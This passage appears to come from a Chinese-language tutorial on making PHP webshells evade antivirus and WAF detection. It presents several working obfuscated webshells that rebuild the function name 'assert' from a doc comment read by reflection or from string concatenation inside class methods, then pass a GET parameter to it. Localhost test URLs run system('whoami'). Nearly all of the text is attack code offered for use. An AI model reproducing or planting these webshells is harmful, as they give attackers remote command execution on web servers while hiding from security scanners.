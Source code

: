 ```http
http://127.0.0.1:8081/security/bypass/test32.php?1=system(%27whoami%27)
```

*通过注释免杀：感觉很有用

```php
<?php
/**
 *assert*/
class A
{
    public static function B()
    {
        return $_GET[1];
    }
}
$re = new ReflectionClass(new A());
$a = str_ireplace(" ","",str_ireplace("\n","",str_ireplace("/","",str_ireplace("*","",$re->getDocComment()))));

substr($a,1)(A::B());
```

```http
http://127.0.0.1:8081/security/bypass/test33.php?1=system(%27whoami%27)
```

#### 2.8 类调用

类方法调用：

```php
<?php
class a{
    function demo(){
        $a = "a";
        $s = "s";
        $c=$a.$s."sert";
        return $c;
    }
}

$s = new a();
$s->demo()($_GET[1]);
```

```http
http://127.0.0.1:8081/security/bypass/test34.php?1=system(%27whoami%27)
```

类的静态方法：

```php
<?php
class a{
    static function demo(){
        $a = "a";
        $s = "s";
        $c=$a.$s."sert";
        return $c;
    }
}

a::demo()($_GET[1]);
```
